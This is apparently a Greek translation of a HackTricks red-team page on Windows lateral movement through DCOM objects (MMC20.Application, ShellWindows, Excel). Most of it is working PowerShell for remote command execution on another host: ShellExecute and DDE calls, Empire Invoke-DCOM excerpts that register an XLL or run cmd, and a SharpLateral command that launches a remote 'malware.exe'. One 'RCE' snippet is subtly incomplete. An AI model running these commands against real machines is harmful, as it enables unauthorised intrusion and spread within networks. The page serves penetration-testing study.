 # DCOM Exec

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MMC20.Application

**Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε την αρχική ανάρτηση από [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

Τα αντικείμενα του Distributed Component Object Model (DCOM) προσφέρουν μια ενδιαφέρουσα δυνατότητα για αλληλεπιδράσεις με αντικείμενα μέσω δικτύου. Η Microsoft παρέχει εκτενή τεκμηρίωση τόσο για το DCOM όσο και για το Component Object Model (COM), προσβάσιμη [εδώ για το DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) και [εδώ για το COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). Μια λίστα εφαρμογών DCOM μπορεί να ανακτηθεί χρησιμοποιώντας την εντολή PowerShell:
```bash
Get-CimInstance Win32_DCOMApplication
```
Το αντικείμενο COM, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), επιτρέπει την scripting των λειτουργιών snap-in του MMC. Σημαντικά, αυτό το αντικείμενο περιέχει μια μέθοδο `ExecuteShellCommand` κάτω από `Document.ActiveView`. Περισσότερες πληροφορίες σχετικά με αυτή τη μέθοδο μπορούν να βρεθούν [εδώ](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Ελέγξτε το να τρέχει:

Αυτή η δυνατότητα διευκολύνει την εκτέλεση εντολών μέσω ενός δικτύου μέσω μιας εφαρμογής DCOM. Για να αλληλεπιδράσετε με το DCOM απομακρυσμένα ως διαχειριστής, μπορεί να χρησιμοποιηθεί το PowerShell ως εξής:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Αυτή η εντολή συνδέεται με την εφαρμογή DCOM και επιστρέφει μια παρουσία του αντικειμένου COM. Η μέθοδος ExecuteShellCommand μπορεί στη συνέχεια να κληθεί για να εκτελέσει μια διαδικασία στον απομακρυσμένο υπολογιστή. Η διαδικασία περιλαμβάνει τα εξής βήματα:

Check methods:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Αποκτήστε RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε την αρχική ανάρτηση [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

Το αντικείμενο **MMC20.Application** αναγνωρίστηκε ότι στερείται ρητών "LaunchPermissions," προεπιλέγοντας άδειες που επιτρέπουν την πρόσβαση στους Διαχειριστές. Για περισσότερες λεπτομέρειες, μπορεί να εξερευνηθεί ένα νήμα [εδώ](https://twitter.com/tiraniddo/status/817532039771525120), και συνιστάται η χρήση του [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET για φιλτράρισμα αντικειμένων χωρίς ρητή Άδεια Εκκίνησης.

Δύο συγκεκριμένα αντικείμενα, `ShellBrowserWindow` και `ShellWindows`, επισημάνθηκαν λόγω της έλλειψης ρητών Αδειών Εκκίνησης. Η απουσία μιας καταχώρισης `LaunchPermission` στο μητρώο κάτω από `HKCR:\AppID\{guid}` σημαίνει ότι δεν υπάρχουν ρητές άδειες.

###  ShellWindows
Για το `ShellWindows`, το οποίο στερείται ProgID, οι μέθοδοι .NET `Type.GetTypeFromCLSID` και `Activator.CreateInstance` διευκολύνουν την δημιουργία αντικειμένων χρησιμοποιώντας το AppID του. Αυτή η διαδικασία εκμεταλλεύεται το OleView .NET για να ανακτήσει το CLSID για το `ShellWindows`. Μόλις δημιουργηθεί, η αλληλεπίδραση είναι δυνατή μέσω της μεθόδου `WindowsShell.Item`, οδηγώντας σε κλήσεις μεθόδων όπως `Document.Application.ShellExecute`.

Παραδείγματα εντολών PowerShell παρέχονται για να δημιουργήσουν το αντικείμενο και να εκτελέσουν εντολές απομακρυσμένα:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Η πλευρική κίνηση μπορεί να επιτευχθεί εκμεταλλευόμενη τα αντικείμενα DCOM Excel. Για λεπτομερείς πληροφορίες, είναι σκόπιμο να διαβάσετε τη συζήτηση σχετικά με την εκμετάλλευση του Excel DDE για πλευρική κίνηση μέσω DCOM στο [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

Το έργο Empire παρέχει ένα σενάριο PowerShell, το οποίο δείχνει τη χρήση του Excel για απομακρυσμένη εκτέλεση κώδικα (RCE) μέσω της χειραγώγησης αντικειμένων DCOM. Παρακάτω παρατίθενται αποσπάσματα από το σενάριο που είναι διαθέσιμο στο [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), που παρουσιάζουν διάφορες μεθόδους για την κακή χρήση του Excel για RCE:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Automation Tools for Lateral Movement

Δύο εργαλεία επισημαίνονται για την αυτοματοποίηση αυτών των τεχνικών:

- **Invoke-DCOM.ps1**: Ένα σενάριο PowerShell που παρέχεται από το έργο Empire και απλοποιεί την κλήση διαφορετικών μεθόδων για την εκτέλεση κώδικα σε απομακρυσμένες μηχανές. Αυτό το σενάριο είναι προσβάσιμο στο αποθετήριο GitHub του Empire.

- **SharpLateral**: Ένα εργαλείο σχεδιασμένο για την εκτέλεση κώδικα απομακρυσμένα, το οποίο μπορεί να χρησιμοποιηθεί με την εντολή:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Αυτόματα Εργαλεία

* Το σενάριο Powershell [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) επιτρέπει την εύκολη εκτέλεση όλων των σχολιασμένων τρόπων για την εκτέλεση κώδικα σε άλλες μηχανές.
* Μπορείτε επίσης να χρησιμοποιήσετε [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Αναφορές

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
